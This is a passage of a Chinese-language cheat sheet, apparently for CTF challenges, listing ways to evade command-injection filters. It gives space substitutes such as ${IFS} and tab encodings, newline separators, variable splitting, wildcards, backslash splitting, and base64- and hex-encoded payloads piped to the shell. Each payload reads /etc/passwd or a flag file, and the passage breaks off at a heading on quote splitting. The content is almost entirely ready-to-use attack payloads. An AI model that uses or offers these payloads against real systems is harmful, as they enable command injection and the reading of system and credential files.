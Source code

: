 ```
<,<>,${IFS},$IFS，%20(space),%09(tab),$IFS$9,$IFS$1

cat<flag.txt
cat<>flag.txt
cat$IFS$9flag.txt
cat${IFS}flag.txt

{ls,-la,flag}
CMD=$'\x20/etc/passwd'&&cat$CMD
```



**分隔符绕过**：

```
%0a (换行符)    %0d (回车符)
%09 (制表符)    %20 (空格编码)
```



**变量扩展**

```
c=ca;t=t; $c$t /etc/passwd
```



**通配符**：

```
cat /etc/pas*                       # 用*匹配文件名
cat /e??/pass??                     # 用?匹配单个字符
```



**Base64编码**：

```
echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d | sh
```



**Hex编码**：

```
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```



**反斜杠分割**：

```
c\at /etc/passwd
```



 **引号分割**：
